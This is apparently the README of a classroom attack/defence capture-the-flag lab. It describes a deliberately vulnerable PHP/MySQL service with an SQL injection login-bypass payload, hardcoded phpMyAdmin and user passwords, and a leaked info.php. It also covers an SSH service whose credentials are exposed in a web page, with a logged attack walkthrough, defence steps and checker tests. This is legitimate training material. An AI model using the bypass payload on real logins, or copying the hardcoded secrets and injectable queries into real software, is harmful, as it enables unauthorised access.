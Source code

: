 # sqli-vulnerable-service

Escenario vulnerable.

## Restricciones

- No se puede cambiar la contraseña del usuario de base de datos `vulnerable`.
- No se puede detener la web, la base de datos ni el phpMyAdmin.
- Si se puede cambiar la contraseña del `root`, bloquea un flag accediendo desde el phpMyAdmin.

## Flags

1. Fichero `info.php` olvidado. Eliminar el fichero para eliminar la vulnerabilidad. El flag está en un comentario en el
   fuente.
2. Acceso mediante `root` al phpMyAdmin con el password del secret de Compose `Hardc0dedPassw0rd`. Cambiar el password
   para solucionarlo. El flag estará en la contraseña del usuario `test@egibide.org`.
3. Vulnerabilidad de inyección y bypass de login en los dos campos de formulario. Reescribir la consulta para que no sea
   vulnerable.

## Exploit

```
blah') or 1-- 
```

## Usuarios

- `admin@egibide.org` / `1234`
- `test@egibide.org` / Inválida, es el flag
- `root@egibide.org` / `12345`

## Referencias

- [How to set up a simple LAMP server with DOCKER in 3 minutes](https://medium.com/@mikez_dg/how-to-set-up-a-simple-lamp-server-with-docker-images-in-2023-9b0e24476ec6)
- [php - Docker Official Image](https://hub.docker.com/_/php)
- [Initializing a fresh instance](https://hub.docker.com/_/mysql)
- [Use Secrets in Compose](https://docs.docker.com/engine/swarm/secrets/#use-secrets-in-compose)

---

Pendiente de revisar

---

# Service definition:

- We have two dockers:

1. An Ubuntu (latest version) one which contains the flags.
2. One who has install apache service.
   The attacker has access to a web page (web_docker) and has to look for information that can help him accessing the
   other docker.
   The flags are stored in that last docker's file and attacker has to let them in his T-Submission machine.

# Service implementation:

web docker is configured to take a copy index.html file from the host machine, letting it in '
/usr/local/apache2/htdocs/index.html'.
ssh docker is configured attending to the following tips:

- It has openssh-server installed and started.
- It has a user called 'dev1' whose password is 'w3ar3h4ck3r2'.

'dev1' user's password will never be changed. Moreover, if a team changes it, it will be losing SLa points.

-Flags:
Flags will be stored in 'vulnerable_ssh_1' docker's '/tmp/flags.txt' file.

# About exploting:

- The attacker has to inspect the index.html document; the credentialas are stored there as plain text. With those
  credentials, the attacker can log into vulnerable_ssh docker and take the flags from /tmp/flags.txt.
- The defender should change 'dev1' user's password.

  Attack performed by Team1 against Team 4.
  Inspect web page in 10.0.0.104
  We find 'dev1/w3ar3h4ck3r2' credentials.
  ssh -p 8822 dev1@10.0.0.104
  Enter 'w3ar3h4ck3r2' as password
  cat /tmp/flags.txt
  Copy last flags
  Exit
  'ssh -i /home/urko/Deskargak/keyak/team2-sshkey root@10.0.1.1'
  nano /root/xxx.flag
  Paste copied flags.

  Defense performed by Team4
  'ssh root@10.0.0.104'
  docker exec -it vulnerable_ssh_1 /bin/bash
  passwd dev1

# Checker checks:

- Ports to reach dockers are open (WEB:9797; SSH 8822)
- User 'dev1' exists in vulnerable_ssh docker.
- /etc/sshd_config file from vulnerable_ssh docker has not been changed.
- /usr/local/apache2/htdocs/index.html file's content from vulnerable_web docker has not been changed.

Checks done:

- TEAM 0. Stop the container: 'root@team0-services:~# docker stop vulnerable_web_1' It works OK, service's status
  becomes DOWN.
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop vulnerable_ssh_1' It works OK, service's status
  becomes DOWN.
- TEAM 2. 'userdel dev1'. It works OK, service's status becomes faulty.
- TEAM 3. Change '/etc/sshd_config' file from 'vulnerable_ssh' docker. It works OK, service's status becomes faulty.
- TEAM 4. Change '/usr/local/apache2/htdocs/index.html' file from 'vulnerable_web' docker. It works OK, service's status
  becomes faulty.
- TEAM 5. 'ssh service stop'. It works OK, service's status becomes faulty.
- TEAM 0. apt update apache2

# License notes

Parts from:
https://github.com/kristianvld/SQL-Injection-Playground
